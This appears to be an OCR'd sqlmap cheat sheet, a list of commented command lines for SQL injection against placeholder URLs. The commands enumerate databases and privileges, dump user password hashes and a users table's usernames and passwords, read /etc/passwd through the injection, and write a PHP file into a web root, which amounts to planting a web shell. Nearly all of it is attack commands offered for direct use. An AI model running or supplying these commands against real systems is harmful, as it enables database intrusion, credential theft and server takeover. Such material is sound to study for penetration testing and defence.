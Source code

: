 #  Submit using the POST method
sqlmap -u "http://192.168.1.1/sqlmap/oracle/post_int.php" --method POST --data "id=1"
sqlmap -u "https://xxxxx//search.aspx" --forms --batch --crawl=10  --dbms=MSSQL --dbs --current-db  --technique=BEUST --risk=3 --level=3

# Read the database version, current user, current database 
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1

# Determine the current database user permissions
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --privileges -U username-v 1 
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --is-dba -U username-v 1

# Read the passwords of all database users or specified database users 
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
Sqlmap.py-u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2

# Get all the databases
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2

# Get all the tables in the specified database
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2

# Get the field of the specified table in the specified database name 
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2

# Get the data of the specified field in the specified table in the specified database name 
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2

# file-read read web file

Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2

# file-write writes files to the web 
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file-dest /var/www/html/xx.php -v 2
